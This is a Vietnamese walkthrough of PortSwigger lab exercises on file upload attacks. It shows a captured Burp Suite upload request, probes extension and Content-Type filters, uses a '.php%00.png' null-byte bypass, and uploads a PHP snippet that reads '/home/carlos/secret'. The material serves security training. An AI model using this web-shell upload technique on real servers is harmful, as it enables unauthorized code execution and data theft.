# PortSwigger: File Upload

## Hướng dẫn chung cho toàn bộ bài lab

### Vị trí tấn công

Tại trang cập My Account, phần upload ảnh đại diện là nơi thực hiện tấn công File Upload.



## Quy trình gửi request ban đầu

### Đăng nhập

Tại trang đăng nhập, người tấn công có thể thực hiện đăng nhập với tài khoản: `wiener:peter`



### Intercept request

Bật Burp Suite, tại thẻ Proxy, bật chế độ Intercept.

Sau khi đăng nhập thành công, tại trang `My Account`, thực hiện upload 1 ảnh lên trang web, sau đó bấm Upload.


Xem request upload avatar bắt được tại Burp Suite như sau:

```HTTP
POST /my-account/avatar HTTP/2
Host: 0ad6003803197a2b80e50d6c007e00e9.web-security-academy.net
Cookie: session=88CWmCMhVjYljIglyxOTjJuNJnlbc4Vu
Content-Length: 231317
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="149", "Not)A;Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryd45xqbtycxfxj4iG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/149.0.0.0 Safari/537.36
Origin: https://0ad6003803197a2b80e50d6c007e00e9.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad6003803197a2b80e50d6c007e00e9.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryd45xqbtycxfxj4iG
Content-Disposition: form-data; name="avatar"; filename="Screenshot (1).png"
Content-Type: image/png

PNG
(Chuỗi byte dài của body)
------WebKitFormBoundaryd45xqbtycxfxj4iG
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryd45xqbtycxfxj4iG
Content-Disposition: form-data; name="csrf"

b9FTOTLy3Vjtu26d7yZ3gSIqJEyECJMl
------WebKitFormBoundaryd45xqbtycxfxj4iG--
```

### Thực hiện tấn công để lấy token

Để giải chuỗi các bài tập về file upload, cần upload file shell PHP. Sau đó dùng chính file này để lấy được chuỗi bí mật của file `home/carlos/secret`. Lấy chuỗi đó copy vào mục Submit solution để kiểm tra và hoàn thành bài lab.



Quy trình đầu tiên của toàn bộ chuỗi bài tập File Upload được thực hiện theo trình tự như trên. Phần giải thích các bài tập sau đây sẽ chỉ tập trung vào bước request các request đã chỉnh sửa để bắt được token của người dùng `Carlos`

## Bài tập 4: Tấn công File Upload bằng kỹ thuật Bypass blacklisted file extension

### Vấn đề của bài tập

### Quy trình thực hiện

#### Thực hiện dò lỗ hổng


TH1: Upload file ảnh bình thường => thông báo thành công



TH2: Upload file php => thông báo file php không được hỗ trợ

TH3: Upload file php3 => Thông báo upload file thành công => nhưng gọi file đó qua api thì không thực thi được code PHP


#### Thực hiện request tấn công


#### Gọi file và submit token


## Bài tập 5: Tấn công File Upload bằng kỹ thuật obfuscated file extension

### Vấn đề của bài tập

Server chỉ chấp nhận upload file JP(E)G hoặc PNG, không chấp nhận file khác

* Đuôi file như `.php` đã bị blacklisted
* Content-Type của part 2 nếu đổi sang loại khác mà không phải ảnh thì cũng bị chặn
* Server có thể kiểm tra signature/magic bytes của file để xác định định dạng thực tế thay vì chỉ tin vào extension hoặc Content-Type.

Phần file extension bị blacklisted. Nhưng có thể dùng kỹ thuật làm rối mã để bypass

### Quy trình thực hiện

#### Thực hiện dò lỗ hổng

Chuyển request upload avatar vào Repeater

TH1: Upload file bình thường => Upload thành công



TH2:  Đổi filename (từ `Screenshot(1).png` sang `A.png`)=> Upload thành công



TH3: Upload nhưng đổi đuôi file thành `.php` => Thông báo chỉ được phép gửi file JPEG hoặc PNG => Server kiểm tra phần mở rộng file và từ chối các extension không nằm trong danh sách cho phép.



TH4: Upload nhưng thay đổi Content-Type thành `application/octet-stream`  => Vẫn upload thành công => Content-Type không phải lớp bảo vệ chính

TH5: Thay đổi body thành code PHP (lưu ý giữa content-type và body có 2 dòng trắng) => Thông báo upload file thành công

Việc thêm dòng trắng là yêu cầu của chuẩn multipart/form-data để phân tách phần header của part và nội dung file.

Việc upload thành công chỉ chứng minh server chấp nhận file. Bước tiếp theo cần kiểm tra file có được xử lý bởi PHP interpreter hay chỉ được trả về như một file tĩnh.



TH6: Thay đổi đuôi file thành `php%00.png` => Thông báo upload file thành công



* `%00` biểu diễn byte NULL trong một số ngữ cảnh xử lý chuỗi.
* Do sự khác biệt giữa cách ứng dụng kiểm tra tên file và cách hệ thống xử lý chuỗi, phần mở rộng `.png` có thể bị bỏ qua ở bước lưu file, khiến file được lưu dưới tên `.php`.

#### Thực hiện request tấn công

Trong request upload file tại repeater, thực hiện sửa đuôi file thành `.php%00.png` và sửa body thành 1 đoạn mã php như sau, sau đó gửi request đi.

```PHP
<?php
	echo file_get_contents("/home/carlos/secret");
?>
```



Response cho thấy file đã được upload thành công.

#### Gọi file và submit token

Tại Burp Suite, thực hiện gọi API mới tới file vừa tạo: `files/avatars/Screenshot(1).php`



Quan sát response cho thấy tại dòng cuối cùng chính là token nhận được, copy chuỗi này và submit bài tập.
